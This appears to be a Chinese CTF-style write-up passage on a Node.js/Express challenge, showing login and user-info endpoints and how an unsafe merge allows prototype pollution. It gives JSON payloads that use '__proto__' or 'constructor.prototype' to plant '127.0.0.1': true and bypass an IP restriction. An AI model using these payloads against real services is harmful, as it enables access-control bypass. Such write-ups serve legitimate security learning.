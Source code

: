 ```javascript
  res.send(data);
});

//要求用127.0.0.1去访问
```
过滤了__proto__,可以用`constructor.prototype`代替__proto__
```javascript
app.post("/user/login", (req, res) => {
  const { username, password } = req.body;
  if (
    typeof username != "string" ||
    typeof password != "string" ||
    !username ||
    !password
  ) {
    res.status(400);
    res.end("invalid username or password");
    return;
  }
  if (!userStorage[username]) {
    res.status(403);
    res.end("invalid username or password");
    return;
  }
  if (userStorage[username].password !== password) {
    res.status(403);
    res.end("invalid username or password");
    return;
  }
  req.session.username = username;
  res.send("login success");
});
//储存username和password

// under development
app.post("/user/info", (req, res) => {
  if (!req.session.username) {
    res.sendStatus(403);
  }
  update(userStorage[req.session.username].info, req.body);
  res.sendStatus(200);
});
//将req.body写入userStorage
```
其中着重看第二个接口<br />age随便填，然后将"127.0.0.1":true写入父类对象constructor，属性prototype，这样就会让js在查找不存在的值（指传入url的ip为127.0.0.1时）使strategy为true。<br />payload:
```json
{
  "__proto__": {
    "strategy": {
      "127.0.0.1": true
    }
  }
}
```
```json
{
  "age":11,
  "constructor":{"prototype":{"127.0.0.1":true}}
}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1710252924214-a623651c-c0c5-4c93-9e16-683129487533.png#averageHue=%23171717&clientId=u9820f7c5-5961-4&from=paste&height=622&id=u30d47a7b&originHeight=1400&originWidth=2568&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=168145&status=done&style=none&taskId=udec4cf62-fd34-4908-854d-d79cac30b36&title=&width=1141)
